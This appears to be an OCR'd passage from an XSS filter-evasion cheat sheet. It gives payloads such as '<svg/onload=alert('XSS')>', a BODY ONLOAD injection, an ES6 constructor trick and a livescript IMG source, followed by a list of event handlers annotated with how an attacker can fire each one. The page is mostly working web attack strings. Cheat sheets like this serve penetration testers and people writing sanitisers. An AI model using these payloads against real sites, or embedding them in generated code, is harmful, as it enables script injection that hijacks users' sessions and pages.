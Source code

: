 ```js
<IMG SRC="livescript:[code]">
```


## SVG Object Tag
```js
<svg/onload=alert('XSS')>
```

## ECMAScript 6

```js
Set.constructor`alert\x28document.domain\x29
```

## BODY Tag
Method doesn’t require using any variants of javascript: or `<SCRIPT`... to accomplish the XSS attack). Dan Crowley additionally noted that you can put a space before the equals sign `(onload= != onload =)`:

```js
<BODY ONLOAD=alert('XSS')>
```

## Event Handlers
It can be used in similar XSS attacks to the one above (this is the most comprehensive list on the net, at the time of this writing). Thanks to Rene Ledosquet for the HTML+TIME updates.

The Dottoro Web Reference also has a nice list of events in JavaScript.

```
FSCommand() (attacker can use this when executed from within an embedded Flash object)
onAbort() (when user aborts the loading of an image)
onActivate() (when object is set as the active element)
onAfterPrint() (activates after user prints or previews print job)
onAfterUpdate() (activates on data object after updating data in the source object)
onBeforeActivate() (fires before the object is set as the active element)
onBeforeCopy() (attacker executes the attack string right before a selection is copied to the clipboard - attackers can do this with the execCommand("Copy") function)
onBeforeCut() (attacker executes the attack string right before a selection is cut)
onBeforeDeactivate() (fires right after the activeElement is changed from the current object)
onBeforeEditFocus() (Fires before an object contained in an editable element enters a UI-activated state or when an editable container object is control selected)
onBeforePaste() (user needs to be tricked into pasting or be forced into it using the execCommand("Paste") function)
onBeforePrint() (user would need to be tricked into printing or attacker could use the print() or execCommand("Print") function).
onBeforeUnload() (user would need to be tricked into closing the browser - attacker cannot unload windows unless it was spawned from the parent)
onBeforeUpdate() (activates on data object before updating data in the source object)
onBegin() (the onbegin event fires immediately when the element’s timeline begins)
onBlur() (in the case where another popup is loaded and window looses focus)
onBounce() (fires when the behavior property of the marquee object is set to “alternate” and the contents of the marquee reach one side of the window)
onCellChange() (fires when data changes in the data provider)
onChange() (select, text, or TEXTAREA field loses focus and its value has been modified)
onClick() (someone clicks on a form)
onContextMenu() (user would need to right click on attack area)
onControlSelect() (fires when the user is about to make a control selection of the object)
onCopy() (user needs to copy something or it can be exploited using the execCommand("Copy") command)
onCut() (user needs to copy something or it can be exploited using the execCommand("Cut") command)
onDataAvailable() (user would need to change data in an element, or attacker could perform the same function)
```